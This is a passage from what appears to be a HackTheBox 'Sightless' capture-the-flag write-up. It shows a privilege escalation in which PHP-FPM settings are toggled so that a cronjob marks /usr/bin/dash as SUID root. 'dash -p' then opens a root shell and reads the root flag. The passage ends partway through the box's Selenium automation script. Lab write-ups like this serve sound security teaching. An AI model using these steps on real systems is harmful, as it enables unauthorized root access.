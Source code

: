 ![](_/htb-sightless-20240913-11.png)

I then disabled and re-enabled PHP-FPM in Settings/Configuration.

After the cronjob runs:

```console
michael@sightless:$ ls -l /usr/bin/dash
-rwsr-xr-x 1 root root 125688 Mar 23  2022 /usr/bin/dash
michael@sightless:$ /usr/bin/dash -p
# id
uid=1000(michael) gid=1000(michael) euid=0(root) groups=1000(michael)
# cat /root/root.txt
d892cc...
```

## Post-exploitation

Here's the service setup.

`/home/john/automation/administration.py`:

```python
#!/usr/bin/python3
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
from selenium.common.exceptions import UnexpectedAlertPresentException
from selenium.common.exceptions import NoAlertPresentException
from selenium.webdriver.common.alert import Alert
from selenium.webdriver.support import expected_conditions as EC
import time
import threading
import schedule

options = Options()
options.add_argument('--headless')
options.add_argument('--no-sandbox')
options.add_argument('--disable-dev-shm-usage')

# Update this line with the path to your locally downloaded Chrome driver
chrome_driver_path = '/home/john/automation/chromedriver'

# Use Service to specify the Chrome driver binary path
service = Service(chrome_driver_path)
service.start()

```